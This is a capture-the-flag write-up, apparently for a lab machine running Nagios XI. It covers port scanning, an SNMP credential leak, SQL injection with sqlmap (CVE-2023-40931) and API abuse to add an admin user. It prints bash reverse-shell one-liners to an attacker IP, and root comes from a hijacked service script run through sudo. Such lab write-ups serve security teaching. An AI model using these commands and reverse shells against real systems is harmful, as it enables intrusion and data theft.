







## ENUMERATION

We start with a quick scan to identify all the open TCP ports

```shell
sudo nmap -p- --min-rate 10000 10.10.11.248

Nmap scan report for 10.10.11.248
Host is up (0.34s latency).

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
389/tcp   open  ldap
443/tcp   open  https
5667/tcp  open  tcpwrapped
```
We then perform an agressive scan on the identified TCP ports

```shell
sudo nmap -A -p 22,80,389,443,5667 10.10.11.248 -oN monitored_scan

Nmap scan report for 10.10.11.248
Host is up (0.34s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
|_http-server-header: Apache/2.4.56 (Debian)
5667/tcp open  tcpwrapped
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We then perform a quick UDP scan for all the ports 

```shell
sudo nmap -sU -p- -Pn --min-rate 10000 10.10.11.248

PORT    STATE SERVICE
123/udp open  ntp
161/udp open  snmp
```

Next let's add the ipaddress to our etc/hosts and access it in our browser

```shell
echo '10.10.11.248 monitored.htb' | sudo tee -a /etc/hosts
```

Accessing the page on our browser we get a nagios website



we proceed by clicking access the Nagios XI and we come across a nagios login page



I tried some default creds but did not succeed. Looks like a dead end. Next i tried enumerating snmp using snmpwalk. After taking some sips of coffee this caught my eyes

```shell
snmpwalk -v2c -c public -m ALL 10.10.11.248
````SNIP```
HOST-RESOURCES-MIB::hrSWRunParameters.951 = STRING: "/usr/sbin/snmptt --daemon"
HOST-RESOURCES-MIB::hrSWRunParameters.952 = STRING: "/usr/sbin/snmptt --daemon"
HOST-RESOURCES-MIB::hrSWRunParameters.964 = STRING: "-pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6"
HOST-RESOURCES-MIB::hrSWRunParameters.1475 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
HOST-RESOURCES-MIB::hrSWRunParameters.1476 = STRING: "-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
HOST-RESOURCES-MIB::hrSWRunParameters.1494 = STRING: "-bd -q30m"
HOST-RESOURCES-MIB::hrSWRunParameters.4641 = ""
````SNIP```
```

It looks like a script that was run by svc with some credentials. After doing some research i came across this [authenticate](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783) which shows you how to autheticate with the api endpoint ``/api/v1/authenticate/``

```shell
pl4int3xt@archlinux ~> curl -X POST -k -L -d 'username=svc&password=XjH7VCehowpR1xZB' https://nagios.monitored.htb/nagiosxi/api/v1/authenticate/
{"username":"svc","user_id":"2","auth_token":"bb18683a8869f068f4de5493de000a0ee3d5b850","valid_min":5,"valid_until":"Thu, 22 Feb 2024 09:03:59 -0500"}
```

After autheticating to the api i got an auth_token. Doing more research i came across this blog thats talks about an sqlinjection [CVE-2023-40931](https://outpost24.com/blog/nagios-xi-vulnerabilities/).I then proceeded and run the exploit on the specified endpoint using the auth token i got.

```shell
pl4int3xt@archlinux ~> sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=bb18683a8869f068f4de5493de000a0ee3d5b850" --batch --level 5 --risk 3 -p id -D nagiosxi -T xi_users --dump
````SNIP```
Database: nagiosxi
Table: xi_users
[3 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomF
VG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 1708619156   | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 5              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgA
OUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1699730174   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 3              | 1699697433           |
| 6       | whoami@local.com    | whoami               | 5FSvtms0KS847IUd9fZ05prj9NV60eQbkt0qQicG8oUq6jXQCi8ufJBMTc2F4cbh | 1       | $2a$10$9b2be203cb46a8d77b42fu1cq1gEixJMUkE8Thwe6.YhT/C7dDwqO | whoami      | 0          | 1708612148 | 0           | 0           | 0            | 0            | 30U3n54rr5IDUqbl3fnFNVvCNXkeSVGcRTldVV7CahAjLrkt2pUaZMqoh98Nbhum | 0              | 0              | 1708612400           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

[20:31:11] [INFO] table 'nagiosxi.xi_users' dumped to CSV file '/home/pl4int3xt/.local/share/sqlmap/output/nagios.monitored.htb/dump/nagiosxi/xi_users.csv'
[20:31:11] [INFO] fetched data logged to text files under '/home/pl4int3xt/.local/share/sqlmap/output/nagios.monitored.htb'

[*] ending @ 20:31:11 /2024-02-22/
```

I dumped the database. Next i tried cracking the passwords but i could not find anything. After doing more research i came across this blog that allows one to [add new user](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923) using the api key. Next i fired up insomnia and made a post request to ```http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1``` 



An admin user was created successfully. I used the created user credentials to login into the admin dashboard. We then navigate to configure -> Core Config Manager -> commands. We create a new command and write our reverse shell.

```shell
bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1'
```



Next we navigate to services and add a new service and add our command.



Next we start our netcat listener and click on run check command.



We are in 

```shell
pl4int3xt@archlinux ~> nc -nlvp 4444
Connection from 10.10.11.248:37526
bash: cannot set terminal process group (22933): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$
```

Next we start with our simple check of the services we can run as sudo.

```shell
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

I found an interesting bash script ```/usr/local/nagiosxi/scripts/manage_services.sh``` which can start/stop/restart services. so we can basically run services as root using ```manage_service.sh```

```shell
nagios@monitored:/usr/local/nagios/bin$ cat /usr/local/nagiosxi/scripts/manage_services.sh
< cat /usr/local/nagiosxi/scripts/manage_services.sh
#!/bin/bash
#
# Manage Services (start/stop/restart)
# Copyright (c) 2015-2020 Nagios Enterprises, LLC. All rights reserved.
#
# =====================
# Built to allow start/stop/restart of services using the proper method based on
# the actual version of operating system.
#
# Examples:
# ./manage_services.sh start httpd
# ./manage_services.sh restart mysqld
# ./manage_services.sh checkconfig nagios
#

BASEDIR=$(dirname $(readlink -f $0))

# Import xi-sys.cfg config vars
. $BASEDIR/../etc/xi-sys.cfg

# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
```

Next i took the `npcd` service and deleted it. I created a new `npcd` service with a reverse shell in it.

```shell
nagios@monitored:/usr/local/nagios/bin$ echo '#!/bin/bash' >> npcd
echo '#!/bin/bash' >> npcd
nagios@monitored:/usr/local/nagios/bin$ echo 'bash -i >& /dev/tcp/10.10.16.9/9999 0>&1' >> npcd
< 'bash -i >& /dev/tcp/10.10.16.9/9999 0>&1' >> npcd
```

I then made the file executable.

```shell
nagios@monitored:/usr/local/nagios/bin$ chmod +x npcd
chmod +x npcd
```

Next i turned on my netcat listener, then i stoped and started the npcd service.

```shell
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd 
<local/nagiosxi/scripts/manage_services.sh stop npcd
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
<ocal/nagiosxi/scripts/manage_services.sh start npcd
```

And boom i got a reverse shell as root

```shell
pl4int3xt@archlinux ~> nc -nlvp 9999
Connection from 10.10.11.248:59400
bash: cannot set terminal process group (26270): Inappropriate ioctl for device
bash: no job control in this shell
root@monitored:/root# ls
ls
root.txt
```

